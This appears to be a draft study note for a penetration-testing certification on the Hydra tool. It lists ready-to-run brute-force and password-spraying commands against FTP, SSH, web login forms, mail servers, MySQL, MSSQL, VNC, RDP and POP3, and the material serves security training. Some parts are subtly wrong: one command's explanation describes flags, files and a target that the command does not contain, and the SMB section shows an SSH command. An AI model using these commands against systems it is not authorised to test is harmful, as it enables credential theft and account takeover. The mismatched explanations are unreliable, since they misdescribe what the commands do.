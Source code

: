 hydra
############

Date: 2024-11-30 15:04

Status: #draft

Tags: :ref:`certified penetration tester`, :ref:`login brute forcing`

----

Description
*****************
A utility for applying wordlist attacks to common services. 


Installation
******************

.. code-block:: bash 

   sudo apt-get -y update
   sudo apt install hydra


Usage
*****************

FTP
=====
Used to brute-force login credentials for FTP services, commonly used to transfer files over a network

.. code-block:: bash

   hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100

example 2: Testing FTP Credentials on a Non-Standard Port

.. code-block:: bash
   
   hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp


SSH
==================
Targets SSH services to brute-force credentials, commonly used for secure remote login to systems

.. code-block:: bash

   hydra -L <user.list> -P <password.list> ssh://<tagetIP>

 
HTTP 
=====
Used to brute-force login credentials for HTTP web login forms using either GET or POST requests.

Example 1: Brute force a login form

.. code-block:: bash

   hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"

Example 2: To launch a brute-force attack against this Basic HTTP service, use the following Hydra command:

.. code-block:: bash

   hydra -L usernames.txt -P passwords.txt www.example.com http-get / -s 81

Let's break down the command:

- `-l basic-auth-user` This specifies that the username for the login attempt is 'basic-auth-user'.
- `-P 2023-200_most_used_passwords.txt` This indicates that Hydra should use the password list contained in the file '2023-200_most_used_passwords.txt' for its brute-force attack.
- `127.0.0.1` This is the target IP address, in this case, the local machine (localhost).
- `http-get /` This tells Hydra that the target service is an HTTP server and the attack should be performed using HTTP GET requests to the root path ('/').
- `-s 81` This overrides the default port for the HTTP service and sets it to 81.

Example 3: Brute-Forcing a Web Login Form

.. code-block:: bash

   hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"

- Use the username "admin".
- Use the list of passwords from the passwords.txt file.
- Target the login form at /login on www.example.com.
- Employ the http-post-form module with the specified form parameters.
- Look for a successful login indicated by the HTTP status code 302.

Example 4: HTTP Post example 

Considering a post submission like this:

.. code-block:: bash

   POST /login HTTP/1.1
   Host: www.example.com
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 29

   username=john&password=secret123

hydra can be set with

.. code-block:: bash

   hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"

Where `F` is a string to indicate failure.  Or using the `S` option to look for a success string We can also set the command to respond to a status code: 

.. code-block:: bash

   hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"

We can also set the command to respond to a status code: 

.. code-block:: 

   hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"

.. code-block:: bash

   hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"

SMTP
======
Attacks email servers by brute-forcing login credentials for SMTP, commonly used to send emails.

.. code-block:: bash

   hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com

IMAP 
=====
Used to brute-force credentials for IMAP services, which allow users to access their email remotely.

.. code-block:: bash

   hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com

MYSQL
======
Attempts to brute-force login credentials for MySQL databases.

.. code-block:: bash

   hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100

MSSQL
========
Targets Microsoft SQL servers to brute-force database login credentials.

.. code-block:: bash

   hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100

VNC
=====
Brute-forces VNC services, used for remote desktop access

.. code-block:: bash

   hydra -P /path/to/password_list.txt vnc://192.168.1.100


RDP
==================
Targets Microsoft RDP services for remote login brute-forcing.

Example 1:  Trying both lists

.. code-block:: bash

   hydra -L <user.list> -P <password.list> rdp://<targetIP>

Example 2: Password Spraying

.. code-block:: bash

   hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

Example 3: Advanced RDP Brute-Forcing

Now, imagine you're testing a Remote Desktop Protocol (RDP) service on a server with IP 192.168.1.100. You suspect the username is "administrator," and that the password consists of 6 to 8 characters, including lowercase letters, uppercase letters, and numbers. To carry out this precise attack, use the following Hydra command:
 
.. code-block:: bash

   hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp

- Use the username "administrator".
- Generate and test passwords ranging from 6 to 8 characters, using the specified character set.
- Target the RDP service on 192.168.1.100.
- Employ the rdp module for the attack.

SMB
==================

.. code-block:: bash
   
   hydra -L <user.list> -P <password.list> ssh://<tagetIP>


Hydra for POP3
==================
Targets email retrieval services to brute-force credentials for POP3 login.

Example 1: Password spray attack for POP3

.. code-block:: bash

   hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3



References
*****************

https://academy.hackthebox.com/module/116/section/1173
https://academy.hackthebox.com/module/57/section/504